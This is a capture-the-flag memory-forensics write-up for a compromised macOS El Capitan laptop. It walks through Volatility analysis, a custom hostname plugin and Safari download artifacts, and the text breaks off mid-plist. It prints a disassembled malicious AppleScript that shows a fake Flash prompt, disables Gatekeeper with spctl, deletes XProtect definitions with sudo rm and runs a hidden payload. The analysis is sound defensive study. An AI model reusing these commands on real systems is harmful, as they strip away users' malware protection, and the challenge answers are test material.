








# S4nct1m0ny


### Challenge Description
Peter Parker, the Daily Bugle’s star photographer and secretly Spider-Man, exposed Eddie Brock’s fake Spider-Man photos, earning J. Jonah Jameson’s praise. When Eddie begged for forgiveness, Peter snapped, “You want forgiveness? Get religion.” Humiliated, Eddie—now bonded with Venom—plotted his revenge. Recently, Peter faced performance issues with his laptop and sent it in for service. Upon its return, he noticed something was off. His Spider-Sense tingled — someone had tampered with it. Help Peter analyse the compromised system

**Challenge File**:
+ [Primary Link](https://drive.google.com/file/d/1f8wWkLfwaMpSRcq-Gua8hdcmPQcabpOB/view?usp=sharing)
+ [Mirror Link](https://mega.nz/file/5ClWnLAK#MBTjnlzVwAmK3hfNUp2FoB0rE7HHmeLiHdtPhbcnZPY)

**MD5 Hash**: 
c962ed1ae53f2003658caa07d47d33eb

### Writeup

We have been presented with a .raw file whose size is 6.45 GB upon a small peek in the hex editor we can confirm that the given file indeed is a memory dump

Q1/15) What is the OS version of the compromised system?
Format: *OS_version_number*

well, for this we were asked to find the operating system and version the of the compromised system from which the memory dump was acquired, so intially we can do the `banners.Banners` from volatility 3 :

ok when u search online for this kernel version u get :


https://en.wikipedia.org/wiki/OS_X_El_Capitan

also when we can use volatility 2 determine the profile, since we already know its a macOS operating system we can the plugin `mac_get_profile`:


well from the above we can conclude that the answer to the first question is `OS_X_El_Capitan_10.11.6` or `macOS_El_Capitan_10.11.6` as it was rebranded later  moving on to the next question

Q2/15) What is the hostname of the compromised system?
Format: *hostname*

To extract the hostname from the macOS El Capitan memory dump, I developed a custom Volatility 2 plugin. The hostname is a critical piece of information in forensic investigations as it helps identify the specific machine that was compromised. Volatility 2's built-in Mac plugins don't include a hostname extraction tool. However, the macOS kernel stores the system hostname in global variables that persist in memory:
- `_hostname` - Contains the actual hostname string
- `_hostnamelen` - Stores the length of the hostname (32-bit integer)
By leveraging Volatility's symbol resolution capabilities, we can locate these kernel variables directly in the memory dump without needing to search through potentially unreliable process memory or parse file system artifacts.

The plugin works through the following steps:

1. **Symbol Resolution**: Uses the Volatility profile (specific to macOS 10.11.6) to resolve the kernel symbols `_hostname` and `_hostnamelen` to their actual memory addresses
2. **Read Length**: Reads 4 bytes from the `_hostnamelen` address and unpacks it as a little-endian unsigned integer using `struct.unpack('<I', raw_len)[0]`
3. **Read Hostname**: Using the length value, reads exactly that many bytes from the `_hostname` address to extract the hostname string
4. **Cleanup**: Removes null terminators and returns the hostname

Just add it as `mac_get_hostname` under `volatility\volatility\plugins\mac` ,
Here is  the code :
```py
import struct
import volatility.commands as commands
import volatility.utils as utils

class mac_get_hostname(commands.Command):

    def calculate(self):
	    # Get kernel address space and profile
        kernel_space = utils.load_as(self._config)
        profile = kernel_space.profile
		
		# Resolve symbols to memory addresses
        hostname_sym = profile.get_symbol("_hostname")
        hostnamelen_sym = profile.get_symbol("_hostnamelen")

        if hostname_sym is None or hostnamelen_sym is None:
            print "[!] Could not find _hostname or _hostnamelen symbols"
            print "[!] _hostname: {0}".format(hostname_sym)
            print "[!] _hostnamelen: {0}".format(hostnamelen_sym)
            return

        print "[*] Found _hostnamelen at: 0x{0:x}".format(hostnamelen_sym)
        print "[*] Found _hostname at: 0x{0:x}".format(hostname_sym)

		# Read and parse length (4 bytes, little-endian unsigned int)
        raw_len = kernel_space.read(hostnamelen_sym, 4)
        if raw_len is None or len(raw_len) < 4:
            print "[!] Could not read hostname length"
            return

        hostnamelen = struct.unpack('<I', raw_len)[0]
        print "[*] Hostname length: {0}".format(hostnamelen)

        if hostnamelen <= 0 or hostnamelen > 256:
            print "[!] Invalid hostname length: {0}".format(hostnamelen)
            return

        # Read hostname string
        raw_hostname = kernel_space.read(hostname_sym, hostnamelen)
        if raw_hostname is None:
            print "[!] Could not read hostname string"
            return

        hostname = raw_hostname.rstrip('\x00')
        yield hostname

    def render_text(self, outfd, data):
        for hostname in data:
            outfd.write("Hostname: {0}\n".format(hostname))
```

output :
```
Volatility Foundation Volatility Framework 2.6.1
[*] Found _hostnamelen at: 0xffffff8015521a30
[*] Found _hostname at: 0xffffff8015521930
[*] Hostname length: 15
Hostname: Mac-Admin.local
```

Therefore the answer to this question is :

```
Mac-Admin.local
```

Q3/15) What is the application responsible for the initial infection of the system?

Format: *Appname*

  

when navigating through the files present by using `mac_list_files` from volatility 2 ,we can see that there is an app named `ImageEnhancePro.app` which does look a bit suspicious  as it was found under Downloads :

when we search for this app we can find it on `App Store`:

So upon analysing the applet, for which we  disassembled   the `main.scpt` under this app 
by using [applescript-disassembler](https://github.com/Jinmo/applescript-disassembler) , we get the following output:
```
=== data offset 2 ===
Function name : <Value type=object value=<Value type=event_identifier value=b'aevt'-b'oapp'-b'null'-b'\x00\x00\x80\x00'-b'****'-b'\x00\x00\x90\x00'>>
Function arguments:  <empty or unknown>
 00000 PushLiteral 0 # [177, <Value type=string value=b'\x00A\x00d\x00o\x00b\x00e\x00 \x00F\x00l\x00a\x00s\x00h\x00 \x00U\x00p\x00d\x00a\x00t\x00e\x00 \x00R\x00e\x00q\x00u\x00i\x00r\x00e\x00d\x00\n\x00\n\x00P\x00l\x00e\x00a\x00s\x00e\x00 \x00i\x00n\x00s\x00t\x00a\x00l\x00l\x00 \x00t\x00h\x00e\x00 \x00l\x00a\x00t\x00e\x00s\x00t\x00 \x00u\x00p\x00d\x00a\x00t\x00e\x00 \x00t\x00o\x00 \x00c\x00o\x00n\x00t\x00i\x00n\x00u\x00e\x00.'>]
 00001 PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 00002 PushLiteral 2 # [177, <Value type=string value=b'\x00I\x00n\x00s\x00t\x00a\x00l\x00l'>]
 00003 Push1
 00004 MakeVector
 00005 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00006 PushLiteral 4 # [177, <Value type=string value=b'\x00I\x00n\x00s\x00t\x00a\x00l\x00l'>]
 00007 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00008 PushLiteral 6 # <Value type=object value=<Value type=constant value=0x7374696300000002>>
 00009 PushLiteral 7 # <Value type=fixnum value=0x6>
 0000a MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0000d StoreResult
 0000e ErrorHandler 27
     00011 PushLiteral 9 # [177, <Value type=string value=b'\x00s\x00p\x00c\x00t\x00l\x00 \x00-\x00-\x00m\x00a\x00s\x00t\x00e\x00r\x00-\x00d\x00i\x00s\x00a\x00b\x00l\x00e'>]
     00012 PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     00013 PushTrue <disassembler not implemented>
     00014 Push2
     00015 MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     00018 EndErrorHandler 51
 0001b HandleError 12 13
 00020 PushLiteral 14 # [177, <Value type=string value=b'\x00F\x00a\x00i\x00l\x00e\x00d\x00 \x00t\x00o\x00 \x00d\x00i\x00s\x00a\x00b\x00l\x00e\x00 \x00G\x00a\x00t\x00e\x00k\x00e\x00e\x00p\x00e\x00r\x00:\x00 '>]
 00021 PushVariable [var_0]
 00022 Concatenate
 00023 PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 00024 PushLiteral 15 # [177, <Value type=string value=b'\x00O\x00K'>]
 00025 Push1
 00026 MakeVector
 00027 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00028 PushLiteralExtended 16 # [177, <Value type=string value=b'\x00O\x00K'>]
 0002b PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 0002c PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 0002f PushLiteral 7 # <Value type=fixnum value=0x6>
 00030 MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 00033 StoreResult
 00034 ErrorHandler 67
     00037 PushLiteralExtended 18 # [177, <Value type=string value=b'\x00s\x00u\x00d\x00o\x00 \x00r\x00m\x00 \x00-\x00f\x00 \x00/\x00S\x00y\x00s\x00t\x00e\x00m\x00/\x00L\x00i\x00b\x00r\x00a\x00r\x00y\x00/\x00C\x00o\x00r\x00e\x00S\x00e\x00r\x00v\x00i\x00c\x00e\x00s\x00/\x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00.\x00b\x00u\x00n\x00d\x00l\x00e\x00/\x00C\x00o\x00n\x00t\x00e\x00n\x00t\x00s\x00/\x00R\x00e\x00s\x00o\x00u\x00r\x00c\x00e\x00s\x00/\x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00.\x00p\x00l\x00i\x00s\x00t'>]
     0003a PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     0003b PushTrue <disassembler not implemented>
     0003c Push2
     0003d MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     00040 EndErrorHandler 95
 00043 HandleError 12 13
 00048 PushLiteralExtended 19 # [177, <Value type=string value=b'\x00F\x00a\x00i\x00l\x00e\x00d\x00 \x00t\x00o\x00 \x00d\x00i\x00s\x00a\x00b\x00l\x00e\x00 \x00X\x00P\x00r\x00o\x00t\x00e\x00c\x00t\x00:\x00 '>]
 0004b PushVariable [var_0]
 0004c Concatenate
 0004d PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 0004e PushLiteralExtended 20 # [177, <Value type=string value=b'\x00O\x00K'>]
 00051 Push1
 00052 MakeVector
 00053 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00054 PushLiteralExtended 21 # [177, <Value type=string value=b'\x00O\x00K'>]
 00057 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00058 PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 0005b PushLiteral 7 # <Value type=fixnum value=0x6>
 0005c MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0005f StoreResult
 00060 PushMe
 00061 Push0
 00062 MessageSend 22 # <Value type=object value=<Value type=event_identifier value=b'ears'-b'ffdr'-b'alis'-b'\x00\x00\x00\x00'-b'afdr'-b'\x00\x00 \x00'>>
 00065 PushLiteralExtended 23 # <Value type=object value=<Value type=constant value=0x70737870>>
 00068 MakeObjectAlias 21 # GetProperty

 00069 PushLiteralExtended 24 # [177, <Value type=string value=b'\x00C\x00o\x00n\x00t\x00e\x00n\x00t\x00s\x00/\x00R\x00e\x00s\x00o\x00u\x00r\x00c\x00e\x00s\x00/\x00p\x00r\x00e\x00v\x00i\x00e\x00w'>]
 0006c Concatenate
 0006d GetData
 0006e PopGlobalExtended b'venomPath'
 00071 StoreResult
 00072 ErrorHandler 129
     00075 PushGlobalExtended b'venomPath'
     00078 PushLiteral 10 # <Value type=object value=<Value type=constant value=0x6261646d>>
     00079 PushTrue <disassembler not implemented>
     0007a Push2
     0007b MessageSend 11 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'exec'-b'TEXT'-b'\xff\xff\x80\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
     0007e EndErrorHandler 157
 00081 HandleError 12 13
 00086 PushLiteralExtended 26 # [177, <Value type=string value=b'\x00E\x00r\x00r\x00o\x00r\x00 \x00i\x00n\x00s\x00t\x00a\x00l\x00l\x00i\x00n\x00g\x00 \x00u\x00p\x00d\x00a\x00t\x00e\x00:\x00 '>]
 00089 PushVariable [var_0]
 0008a Concatenate
 0008b PushLiteral 1 # <Value type=object value=<Value type=constant value=0x62746e73>>
 0008c PushLiteralExtended 27 # [177, <Value type=string value=b'\x00O\x00K'>]
 0008f Push1
 00090 MakeVector
 00091 PushLiteral 3 # <Value type=object value=<Value type=constant value=0x64666c74>>
 00092 PushLiteralExtended 28 # [177, <Value type=string value=b'\x00O\x00K'>]
 00095 PushLiteral 5 # <Value type=object value=<Value type=constant value=0x64697370>>
 00096 PushLiteralExtended 17 # <Value type=object value=<Value type=constant value=0x7374696300000000>>
 00099 PushLiteral 7 # <Value type=fixnum value=0x6>
 0009a MessageSend 8 # <Value type=object value=<Value type=event_identifier value=b'syso'-b'dlog'-b'askr'-b'\x00\x00\x00\x00'-b'TEXT'-b'\x00\x00\x00\x00'>>
 0009d Return
```

so upon the analysing the disassembled output of the main.scpt of the app from the above tool Here are the key indicators of malicious behaviour:
1. **Fake Adobe Flash Update Prompt** ```
```
PushLiteral 0 → "Adobe Flash Update Required\n\nPlease install the latest update to continue."
PushLiteral 2 → "Install"
MessageSend → Display dialog
```
- Flash has been deprecated since 2020 and also why would a Image editing application use this prompt ,This mimics historic malware tactics like the `Shlayer Trojan`, which used fake Flash updaters

2. **Disabling Gatekeeper** 
```
PushLiteral 9 → "spctl --master-disable"
MessageSend → syso-exec (system execution)
```
- `spctl` controls Gatekeeper, the macOS security feature that blocks unverified apps.
-  Disabling it allows unsigned malicious apps to run freely, Legitimate applications never disable Gatekeeper silently.
3.  **Tampering with `XProtect` (Apple’s Built-in Malware Protection)**
```
PushLiteral → "sudo rm -f /System/Library/CoreServices/XProtect.bundle/Contents/Resources/XProtect.plist"
MessageSend → syso-exec

```
- This deletes the **XProtect malware definition file**, effectively **disabling macOS’s basic antivirus system**.
- `XProtect` protects users from known malware — removing it is a known **persistence and evasion technique**.

4.   **Accessing Script’s Bundle Path & Extracting Payload**
```
MakeObjectAlias → Contents/Resources/preview
GetData
Store in: venomPath
```
- The script fetches a file called `preview` from its own Resources folder,Name like `venomPath` implies it might be **a hidden payload** and Later executed via `syso-exec`.

Thus, from all the above indicators we can conclude that our suspicion was right and `ImageEnhancePro.app` was indeed the malicious application.

Q4/15) Which application was used to facilitate the download of the malicious application responsible for the infection? Format: Appname
ok for the above question we can see that safari was running, from the pslist output:
```
0xff80262f8798  Safari  515     501     20      2025-06-07 02:24:43.552119      1
```
since safari was running, and we found the malicious app `ImageEnhancePro.app` under `Downloads` ,we can try checking the Download history of safari browser to from where was it downloaded , so in order to check the history we need to get The `History.db` file under `/Users/admin/Library/Safari/History.db` , once dump the file:
```
0xffffff802706b1e0 /Users/admin/Library/Safari/History.db
```
when we open the `History.db` using  `DB Browser for SQLite` or any sqliteviewer and browse the `history_items` table:

we can see that Flock a communication chat application was downloaded, we can also see it under the `Downloads` folder:
```
0xffffff802bb215a0 /Users/admin/Downloads/Flock-macOS-2.2.513.dmg
```
so we can assume that Flock could be our potential application which was used for the download of the malicious application, to confirm this we can check `Downloads.plist` (A **Property List (plist)** file is a structured file used in macOS and iOS to store **configuration settings**, **preferences**, and **metadata** for apps and system services, It can be in **XML** or **binary** format.) from  `/Users/admin/Library/Safari/Downloads.plist` , upon dumping the file using volatlility2:
```
Volatility Foundation Volatility Framework 2.6.1
Wrote 3037 bytes to Downloads.plist from vnode at address ffffff802f9d84b0
```

upon checking the file type:
```
Downloads.plist: Apple binary property list
```
so we convert it to xml from binary format using `plutil` on macOS terminal using :
```
plutil -convert xml1 Downloads.plist -o output.plist
```
or we can also use `python3.9+` using the `plistlib` module:
```py
import plistlib

with open("Downloads.plist", "rb") as f:
    data = plistlib.load(f)  # auto detects binary or XML

with open("output.plist", "wb") as f:
    plistlib.dump(data, f, fmt=plistlib.FMT_XML)

```
after converting it to XML format which is easy to read :
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>DownloadHistory</key>
        <array>
                <dict>
                        <key>DownloadEntryBookmarkBlob</key>
                        <data>
                        Ym9va9ADAAAAAAQQMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                        AAAAAAAAAAAAzAIAAAUAAAABAQAAVXNlcnMAAAAFAAAAAQEAAGFk
                        bWluAAAACQAAAAEBAABEb3dubG9hZHMAAAAcAAAAAQEAAEltYWdl
                        RW5oYW5jZVByby56aXAuZG93bmxvYWQTAAAAAQEAAEltYWdlRW5o
                        YWJjZVByby56aXAAFAAAAAEGAAAEAAAAFAAAACQAAAA4AAAAXAAA
                        AAgAAAAEAwAAszAGAAAAAAAIAAAABAMAAP+IBgAAAAAACAAAAAQD
                        AAACiQYAAAAAAAgAAAAEAwAAhNUIAAAAAAAIAAAABAMAAIXVCAAA
                        AAAAFAAAAAEGAACUAAAApAAAALQAAADEAAAA1AAAAAgAAAAABAAA
                        Qcb5xrsAAAAYAAAAAQIAAAEAAAAAAAAADwAAAAAAAAAAAAAAAAAA
                        AAgAAAAEAwAAAwAAAAAAAAAEAAAAAwMAAPUBAAAIAAAAAQkAAGZp
                        bGU6Ly8vBgAAAAEBAABTeXN0ZW0AAAgAAAAEAwAAACDBTCUAAAAI
                        AAAAAAQAAEG9U2lNAAAAJAAAAAEBAABFQkMyRkIyQy05MjE2LTNF
                        OTUtQURCOC1BQzdFNTRDOTA2ODcYAAAAAQIAAIEAAAABAAAA7xMA
                        AAEAAAAAAAAAAAAAAAEAAAABAQAALwAAAAAAAAABBQAA2AAAAAEC
                        AAA0MmU4YjM5NjVlMDljODljN2IyZmU5OTk3Y2U2MjVkY2UyY2M0
                        ZTNiOzAwMDAwMDAwOzAwMDAwMDAwOzAwMDAwMDAwMDAwMDAwMjA7
                        Y29tLmFwcGxlLmFwcC1zYW5kYm94LnJlYWQtd3JpdGU7MDAwMDAw
                        MDE7MDEwMDAwMDM7MDAwMDAwMDAwMDA4ZDU4NTsvdXNlcnMvYWRt
                        aW4vZG93bmxvYWRzL2ltYWdlZW5oYW5jZXByby56aXAuZG93bmxv
                        YWQvaW1hZ2VlbmhhbmNlcHJvLnppcADMAAAA/v///wEAAAAAAAAA
                        EAAAAAQQAAB4AAAAAAAAAAUQAADkAAAAAAAAABAQAAAQAQAAAAAA
                        AEAQAAAAAQAAAAAAAAIgAADYAQAAAAAAAAUgAABMAQAAAAAAABAg
                        AABcAQAAAAAAABEgAACMAQAAAAAAABIgAABsAQAAAAAAABMgAAB8
                        AQAAAAAAACAgAAC4AQAAAAAAADAgAADkAQAAAAAAAAHAAAAwAQAA
                        AAAAABHAAAAUAAAAAAAAABLAAABAAQAAAAAAAIDwAADsAQAAAAAA
                        AA==
                        </data>
                        <key>DownloadEntryDateAddedKey</key>
                        <date>2025-06-06T20:56:22Z</date>
                        <key>DownloadEntryDateFinishedKey</key>
                        <date>2025-06-06T20:56:22Z</date>
                        <key>DownloadEntryIdentifier</key>
                        <string>08A4C4A7-63C1-4588-A2F7-BD8AF0249895</string>
                        <key>DownloadEntryPath</key>
                        <string>~/Downloads/ImageEnhancePro.zip.download/ImageEnhancePro.zip</string>
                        <key>DownloadEntryPostBookmarkBlob</key>
                        <data>
                        Ym9va3gDAAAAAAQQMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                        AAAAAAAAAAAAdAIAAAUAAAABAQAAVXNlcnMAAAAFAAAAAQEAAGFk
                        bWluAAAACQAAAAEBAABEb3dubG9hZHMAAAATAAAAAQEAAEltYWdl
                        RW5oYW5jZVByby5hcHAAEAAAAAEGAAAEAAAAFAAAACQAAAA4AAAA
                        CAAAAAQDAACzMAYAAAAAAAgAAAAEAwAA/4gGAAAAAAAIAAAABAMA
                        AAKJBgAAAAAACAAAAAQDAACJ1QgAAAAAABAAAAABBgAAbAAAAHwA
                        AACMAAAAnAAAAAgAAAAABAAAQcb4dV0AAAAYAAAAAQIAAAIAAAAA
                        AAAADwAAAAAAAAAAAAAAAAAAAAgAAAAEAwAAAgAAAAAAAAAEAAAA
                        AwMAAPUBAAAIAAAAAQkAAGZpbGU6Ly8vBgAAAAEBAABTeXN0ZW0A
                        AAgAAAAEAwAAACDBTCUAAAAIAAAAAAQAAEG9U2lNAAAAJAAAAAEB
                        AABFQkMyRkIyQy05MjE2LTNFOTUtQURCOC1BQzdFNTRDOTA2ODcY
                        AAAAAQIAAIEAAAABAAAA7xMAAAEAAAAAAAAAAAAAAAEAAAABAQAA
                        LwAAAAAAAAABBQAAuwAAAAECAAA1M2JhNTY5MGJmN2U3Y2E2NjMw
                        NWYxOTViNzBkNmQ0MWVkNWRiYzEwOzAwMDAwMDAwOzAwMDAwMDAw
                        OzAwMDAwMDAwMDAwMDAwMjA7Y29tLmFwcGxlLmFwcC1zYW5kYm94
                        LnJlYWQtd3JpdGU7MDAwMDAwMDE7MDEwMDAwMDM7MDAwMDAwMDAw
                        MDA4ZDU4OTsvdXNlcnMvYWRtaW4vZG93bmxvYWRzL2ltYWdlZW5o
                        YW5jZXByby5hcHAAAMwAAAD+////AQAAAAAAAAAQAAAABBAAAFQA
                        AAAAAAAABRAAAKwAAAAAAAAAEBAAANQAAAAAAAAAQBAAAMQAAAAA
                        AAAAAiAAAJwBAAAAAAAABSAAABABAAAAAAAAECAAACABAAAAAAAA
                        ESAAAFABAAAAAAAAEiAAADABAAAAAAAAEyAAAEABAAAAAAAAICAA
                        AHwBAAAAAAAAMCAAAKgBAAAAAAAAAcAAAPQAAAAAAAAAEcAAABQA
                        AAAAAAAAEsAAAAQBAAAAAAAAgPAAALABAAAAAAAA
                        </data>
                        <key>DownloadEntryPostPath</key>
                        <string>~/Downloads/ImageEnhancePro.app</string>
                        <key>DownloadEntryProgressBytesSoFar</key>
                        <integer>98438</integer>
                        <key>DownloadEntryProgressTotalToLoad</key>
                        <integer>98438</integer>
                        <key>DownloadEntryRemoveWhenDoneKey</key>
                        <false/>
                        <key>DownloadEntryURL</key>
